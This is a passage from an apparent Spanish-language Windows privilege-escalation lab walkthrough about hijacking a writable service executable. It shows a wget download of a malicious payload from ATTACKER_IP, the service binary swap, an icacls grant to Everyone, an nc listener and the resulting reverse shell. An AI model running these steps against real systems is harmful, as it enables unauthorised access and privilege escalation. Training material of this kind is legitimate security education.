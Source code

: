 Luego podemos extraer el fichero malicioso desde la Powershell con el siguiente comando:

```shell-session
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Una vez que el archivo malicioso está en el servidor de Windows, procedemos a reemplazar el ejecutable del servicio con nuestra carga útil. Dado que necesitamos otro usuario para ejecutar nuestro archivo malicioso, también queremos otorgar permisos completos al grupo `Everyone`:

```shell-session
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

Ponemos a la escucha con `nc` en nuestra máquina atacante:

```shell-session
user@attackerpc$ nc -lvp 4445
```

Y finalmente, reinicie el servicio. Si bien en un escenario normal, probablemente tendría que esperar a que se reinicie el servicio, se le han asignado privilegios para reiniciar el servicio usted mismo para ahorrarle algo de tiempo. Utilice los siguientes comandos desde el símbolo del sistema cmd.exe:

```shell-session
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

**Nota:** PowerShell tiene `sc`como alias `Set-Content`, por lo tanto, debe usarlo `sc.exe`para controlar los servicios con PowerShell de esta manera.

Como resultado, obtendrás una reverse shell con privilegios svcusr1:

```shell-session
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1
```

### Unquoted Service Paths

Cuando no podemos escribir directamente en los ejecutables del servicio , todavía existe la posibilidad de forzar a un servicio a ejecutar ejecutables arbitrarios mediante el uso de una característica bastante oscura.
